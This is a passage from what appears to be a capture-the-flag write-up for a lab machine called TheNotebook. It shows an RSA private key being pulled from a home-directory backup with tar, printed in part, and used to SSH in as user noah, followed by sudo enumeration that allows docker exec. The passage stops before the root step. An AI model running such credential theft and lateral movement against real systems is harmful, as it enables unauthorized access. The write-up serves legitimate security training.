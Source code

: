 

It looks to be noah's home directory, and there's a private key in
`.ssh`. I'll read the key from the archive (without extracting it to
disk first to not make a mess):



    www-data@thenotebook:/var/backups$ tar xf home.tar.gz -O home/noah/.ssh/id_rsa
    -----BEGIN RSA PRIVATE KEY-----
    MIIEpQIBAAKCAQEAyqucvz6P/EEQbdf8cA44GkEjCc3QnAyssED3qq9Pz1LxEN04
    HbhhDfFxK+EDWK4ykk0g5MvBQckcxAs31mNnu+UClYLMb4YXGvriwCrtrHo/ulwT
    ...[snip]...
    Uh6he5GM5rTstMjtGN+OQ0Z8UZ6c0HBM0ulkBT9IUIUEdLFntA4oAVQ=
    -----END RSA PRIVATE KEY-----



### SSH

The key works to SSH as noah:



    oxdf@parrot$ ssh -i ~/keys/thenotebook_noah noah@10.10.10.230
    ...[snip]...
    noah@thenotebook:~$ 



And I can grab the `user.txt`:



    noah@thenotebook:~$ cat user.txt
    68aa2b88************************



## Shell as root

### Enumeration

noah can run `sudo` to run `docker` as root to start a specific set of
containers:



    noah@thenotebook:~$ sudo -l
    Matching Defaults entries for noah on thenotebook:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User noah may run the following commands on thenotebook:
        (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*



When looking at this, the important thing to look at is the version of
Docker running:


